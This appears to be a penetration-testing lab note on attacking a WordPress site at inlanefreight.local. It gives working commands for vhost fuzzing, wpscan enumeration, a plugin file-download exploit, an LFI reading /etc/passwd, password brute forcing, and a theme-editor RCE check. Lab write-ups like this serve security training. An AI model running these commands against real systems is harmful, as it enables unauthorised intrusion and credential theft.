

# WPScan

## Vhost enum

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u 'http://inlanefreight.local' -H 'Host: FUZZ.inlanefreight.local' -fs 15189
```

```bash
whatweb blog.inlanefreight.local

WordPress[5.1.6]
```
## Wordpress

```bash
wpscan --url http://blog.inlanefreight.local --enumerate --api-token <REDACTED_API_TOKEN>
```


WordPress theme in use: twentynineteen

Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/

Plugin(s) Identified:    
- email-subscribers

UnauthenticatedFile Download 
https://www.exploit-db.com/exploits/48698

```bash
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
```

- site-editor

Local File Inclusion (LFI)
https://www.exploit-db.com/exploits/44340

```bash
curl 'http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd'
```

- the-events-calendar

User(s) Identified:  
- erika  
- admin  
- Charlie Wiggins

## Login brute force

```bash
wpscan  --url http://blog.inlanefreight.local/ -U erika --passwords /usr/share/seclists/rockyou.txt --api-token <REDACTED_API_TOKEN>
```

Valid Combinations Found:  
- Username: erika, Password: 010203

## RCE via Theme Editor



```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?0=whoami
```

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 19- Hacking WordPress/WPScan.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

Se han sustituido valores literales de autenticación o direcciones de correo por marcadores. Los detalles sin valores están en [el registro de redacciones](../../Resources/Audit/redactions.csv).

[Índice de categoría](../README.md) · [Inicio](../../README.md)
